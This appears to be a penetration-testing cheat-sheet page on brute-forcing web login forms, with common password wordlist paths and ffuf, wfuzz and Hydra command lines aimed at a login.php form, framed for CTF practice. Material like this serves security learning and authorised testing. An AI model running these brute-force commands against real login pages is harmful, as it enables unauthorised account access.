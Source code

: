 # Bruteforce forms

<div class="row row-cols-md-2"><div>

There are two kinds of forms: **GET forms**, in which the parameters of the form are stored within the URL, and anyone opening the URL, will see the form filled with the same input. For instance, a search engine such as Google has a parameter `q` (query) in which the search I made `(hello world)` was stored in.

```
https://www.google.com/search?q=hello+world
https://www.google.com/search?q=hello%20world
```

Search are URL-encoded as a URL is a long suite of characters with no spaces, for instance, space would be either `%20`, or `+`.
</div><div>

Then, we have **POST forms**. They are mostly used for logins/... Once the user submit data, then its encoded, and sent to the server. Even if we have the same URL, the page will be empty for us.

```
https://example.com/login.php
```

The common point between the two are that the data transferred is looking like this: `username=toto&password=toto`, and in both, it's URL-encoded.
</div></div>

> **Note**: BurpSuite can be used too, see the Intruder tab.<br>

<hr class="sl">

## Wordlists

<div class="row row-cols-md-2"><div>

* package wordlist

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

</div><div>

* package seclists 📌

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>

> CTF are usually using `/usr/share/wordlists/rockyou.txt`, and a manually created list of usernames if needed.

<hr class="sr">

## Bruteforce using ffuf

[See fuzzing/ffuf for more information](../fuzz/index.md#ffuf---fuzz-faster-u-fool)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ ffuf -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ ffuf -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
$ ffuf -w wordlist1:W1,wordlist2:W2 -X POST -d "username=W1&password=W2" -u URL
```
</div></div>

<hr class="sl">

## Bruteforce using wfuzz

[See fuzzing/wfuzz for more information](../fuzz/index.md#wfuzz---web-application-fuzzer)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sr">

## Bruteforce authentication forms using Hydra

<div class="row row-cols-md-2"><div>

Hydra is mostly used to bruteforce services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will bruteforce is something like this</p>

```none
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, on by one
* Consider comme failures (`-F`) any web page that returns the word "incorrect"

You should check the [bruteforce services](../../../random/crack_password/services.md) page to learn more about Hydra.
</div></div>